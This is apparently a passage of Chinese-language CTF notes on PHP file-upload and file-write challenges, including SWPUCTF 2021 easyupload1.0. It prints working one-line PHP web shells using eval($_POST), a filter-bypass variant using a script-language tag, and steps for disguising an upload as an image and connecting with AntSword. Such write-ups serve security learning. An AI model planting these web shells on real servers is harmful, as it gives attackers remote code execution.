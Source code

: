 ```
组合一下

```
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd]);?>' ) ?>
```

![image-20250731211339105](E:\note_ctf\assets\image-20250731211339105.png)

显然是 php 头被过滤了，那么就换一种 payload ：

```
<?php fputs(fopen('shell2.php','w'),'<script language="php">@eval($_POST["shell"]);</script>') ?>
```

成功写入，并且在 shell2.php 页面没有任何内容，用蚁剑去连的时候发现连不上：返回数据为空

# [SWPUCTF 2021 新生赛]easyupload1.0

![image-20250731211921118](E:\note_ctf\assets\image-20250731211921118.png)

上传一句话木马的图片，抓包改后缀为php，蚁剑链接可以找到flag，但是这个flag是假的

```
<?php @eval($_POST['shell']);?>
```

看题解发现flag在phpinfo中，我们post传参，使shell=phpinfo();接着访问phpinfo即可早其中拿到flag
